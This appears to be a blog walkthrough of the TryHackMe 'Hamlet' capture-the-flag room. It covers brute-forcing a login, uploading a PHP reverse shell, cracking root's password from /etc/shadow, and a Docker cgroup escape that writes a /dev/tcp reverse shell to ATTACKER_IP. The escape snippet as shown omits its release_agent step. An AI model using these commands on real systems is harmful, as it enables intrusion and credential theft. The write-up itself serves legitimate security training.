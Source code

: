 ```yaml
---
layout: post
title: "TryHackMe Hamlet Walkthrough"
date: 2025-05-22 16:00:00 +0700
categories: [walkthrough, tryhackme]
tags: [ctf, hamlet, tryhackme, hacking, privilege-escalation]
image:
  path: /assets/img/posts/hamlet/preview.png
  alt: Hamlet Walkthrough Preview
toc: true
---
```


---

## 🧠 Room Overview

- **Name**: Hamlet  
- **Platform**: TryHackMe  
- **Difficulty**: Medium  
- **Objective**: Capture the flags and achieve root  
- **Time Taken**: 3–5 hours  
- **Notes**: Done multiple times; some screenshots use different IPs.

---

## 🔍 Initial Recon

Scan the machine:

```bash
nmap -sV -A -v 10.10.124.116
```

Open ports:
- 21 (FTP)
- 22 (SSH)
- 80 (lighttpd)
- 501 (Nagios-like)
- 8000 (Apache)
- 8080 (Tomcat / WebAnno)

---

## 📂 Port 21 - FTP

Anonymous login:

```bash
ftp 10.10.124.116
```

Files downloaded:
- `password-policy.md`
- `ufw.status`

![ftp-files](/assets/img/posts/hamlet/1.png)

---

## 🌐 Port 8080 - WebAnno Login

WebAnno login page was up.

Generated a custom wordlist from Hamlet text:

```bash
cewl -m 12 -w wordlist.txt --lowercase http://10.10.1.97/hamlet.txt
```

Used Burp Suite to brute-force login → `ghost` credentials found.

Logged in → Found users: `admin`, `ophelia`.

Reset `ophelia` password → logged in → found password hint in annotations.

![webanno-login](/assets/img/posts/hamlet/3.png)

---

## 🌐 Port 80 - lighttpd

Homepage titled “Hamlet Annotation Project”.

Gobuster scan:

```bash
gobuster dir -u http://10.10.1.97 -w /usr/share/wordlists/dirb/big.txt
```

Found `robots.txt` → Contains flag + Hamlet text URL.

Used text to generate password list.

---

## 🎭 Port 501 - Gravediggers

Connected via:

```bash
nc 10.10.1.97 501
```

Received Shakespearean riddle → Researched → Got second flag.

![gravedigger-riddle](/assets/img/posts/hamlet/24.png)

---

## 📄 Port 8000 - Apache (Hamlet)

Another copy of Hamlet hosted via iframe from WebAnno project.

Uploaded PHP reverse shell to WebAnno project.

![reverse-shell-upload](/assets/img/posts/hamlet/25.png)

Start listener:

```bash
nc -lvnp 1234
```

Triggered via:

```bash
curl http://10.10.1.97:8000/repository/project/0/document/1/source/reverse-shell.txt
```

![reverse-shell](/assets/img/posts/hamlet/28.webp)

---

## 🚩 Privilege Escalation

Stabilized shell:

```bash
script /dev/null -c bash
```

Read `/etc/passwd` and `/etc/shadow`.

Cracked root password using John:

```bash
john --format=crypt --wordlist=/usr/share/wordlists/rockyou.txt passwd.txt
```

Password: `murder`

Switched to root:

```bash
su
```

---

## 🐳 Docker Escape

Confirmed Docker with `hostname` and `cat /proc/1/cgroup`.

Attempted cgroup release_agent method:

```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
echo "#!/bin/bash" > /cmd
echo "bash -i >& /dev/tcp/ATTACKER_IP/1603 0>&1" >> /cmd
chmod +x /cmd
echo $$ > /tmp/cgrp/x/cgroup.procs
```

Got reverse shell from Docker host.

![docker-escape](/assets/img/posts/hamlet/26.png)

---

## 🏁 Final Flags

```bash
find / -type f -iname "*flag*" 2>/dev/null
```

✅ All flags captured, including host root-level flag.

![final-flag](/assets/img/posts/hamlet/27.png)

---

### References

- [GitHub Walkthrough](https://github.com/IngoKl/THM-Hamlet)